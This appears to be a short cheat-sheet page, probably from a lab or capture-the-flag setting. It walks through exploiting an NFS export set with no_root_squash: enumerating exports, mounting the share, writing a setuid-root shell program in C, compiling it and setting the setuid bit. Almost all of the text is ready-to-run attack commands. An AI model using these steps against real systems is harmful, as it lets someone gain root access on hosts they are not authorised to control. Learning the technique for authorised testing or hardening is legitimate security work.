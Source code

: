 # Detection 

```bash
cat /etc/exports
```

![image](https://user-images.githubusercontent.com/96658935/147764250-ba9636f7-ff5c-4201-a298-306d05ae8ed1.png)


From the output, notice that “no_root_squash” option is defined for the “/tmp” export

```bash
showmount -e 10.10.10.10
```

![image](https://user-images.githubusercontent.com/96658935/147764360-cac84d6f-4f74-407b-80ee-adbbcd2b1df0.png)


```bash
mkdir /tmp/1
```

```bash
mount -o rw,vers=2 10.10.108.52:/tmp /tmp/1
```

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
```


```bash
gcc /tmp/1/x.c -o /tmp/1/x
```

```bash
chmod +s /tmp/1/x
```
